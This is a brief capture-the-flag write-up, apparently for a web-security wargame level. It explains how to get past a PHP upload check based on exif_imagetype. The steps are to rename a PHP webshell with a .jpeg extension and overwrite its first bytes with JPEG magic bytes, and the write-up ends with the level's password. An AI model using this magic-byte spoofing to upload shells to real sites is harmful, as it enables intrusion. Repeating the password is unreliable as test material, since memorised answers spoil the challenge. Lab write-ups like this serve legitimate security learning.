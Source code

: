 # Solution
This one is a little tricker than Level12, however, uses the exact same FE principle with Level12.

The only difference is that it checks for Magic Bytes now.

```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
        echo "File is not an image";  
    }
```

It is an easy bypass, we need to create a jpeg from a php file with `cp` command:
```
cp php_webshell.php ./php_webshell.jpeg
```

`nano php_webshell.jpeg` and append on the first line any 4 characters.

then `hexedit php_webshell.jpeg`. Change the hex values of the first 4 to be: `FF D8 FF EE`

And the shell is ready for exploit

```
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```